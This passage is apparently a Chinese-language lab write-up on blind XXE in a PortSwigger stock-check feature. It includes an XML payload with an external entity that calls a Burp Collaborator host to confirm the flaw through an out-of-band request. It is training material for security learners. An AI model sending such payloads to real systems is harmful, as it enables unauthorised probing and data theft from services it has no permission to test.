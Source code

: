 检查库存功能发送的数据包中含有xml数据，猜测存在xxe漏洞



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/XXE/images/1FF027976BF1428ABB5B735F377D76E5clipboard.png)

但是响应包中并不回显，请求数据。

使用burp collaborator客户端，接收请求数据，验证xxe

```javascript
<?xml version="1.0" encoding="UTF-8"?>
//burp collaborator客户端地址
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://58bn8ko65cvhivtgqb6wpfjxbohe53.burpcollaborator.net"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

接收到响应

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/XXE/images/B0D4AA3FF38349BE91AFDF8392518948clipboard.png)

